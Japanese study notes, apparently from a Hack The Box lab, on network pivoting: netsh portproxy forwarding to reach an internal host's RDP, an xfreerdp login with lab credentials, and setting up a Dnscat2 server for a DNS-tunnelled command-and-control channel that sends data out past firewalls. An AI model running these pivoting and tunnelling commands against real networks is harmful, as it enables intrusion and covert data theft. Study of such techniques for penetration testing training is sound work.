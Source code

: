 
Netsh を使ったポートフォワーディング
- netsh.exe を使うと、特定のポート（例えば **8080**）で受信したデータを、リモートホストの別のポートへ転送できる
```cmd
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=<Windows マシン（ピボットホスト）の外部 IP> connectport=3389 connectaddress=<ターゲットのWindowsマシンの内部ネットワークの IP>
```
- 攻撃者は 10.129.42.198:8080 に接続すると、自動的に 172.16.5.25:3389 にリダイレクトされる。
- ✅ これにより、攻撃者は RDP（リモートデスクトップ）経由で内部の 172.16.5.25 にアクセスできるようになる。
- ✅ この Windows マシン (10.129.42.198) が「ピボットホスト」として機能し、内部ネットワークへのゲートウェイになる！ 🔥


ポートフォワードができているかの確認
```cmd
C:\Windows\system32> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.42.198   8080        172.16.5.25     3389
```

以下のコマンドで、ターゲットのWindowsマシンに接続できる
```sh
xfreerdp /u:victor /p:"pass@123" /v:10.129.42.198:8080
```


# Dnscat2によるDNSトンネリング
- [Dnscat2](https://github.com/iagox86/dnscat2)は、DNSプロトコルを使用して2つのホスト間でデータを送信するトンネリングツール
- 暗号化された **Command & Control（C&C または C2）チャネル** を確立し、DNS プロトコル内の **TXT レコード** にデータを埋め込んで送信する

- 通常の DNS 通信 vs Dnscat2
- 通常のDNS通信
	- 企業ネットワークの Active Directory 環境 では、社内の DNS サーバー が
		- ホスト名を IP アドレスに解決
		- 外部の DNS サーバーにトラフィックを転送
	- Dnscat2
		1.	DNS の名前解決要求が、攻撃者が管理する 外部の DNS サーバー に送信される
		2.	正規の DNS 応答の代わりに、データが送信(流出)する
		3.	ネットワーク内のファイアウォールを回避しながらデータの送信が可能！

設定
```shell
snowyowl644@htb[/htb]$ 

git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

dnscat2ファイルを実行してdnscat2サーバーを起動する
```shell
snowyowl644@htb[/htb]$ sudo ruby dnscat2.rb --dns host=<攻撃マシンのIP>,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...
```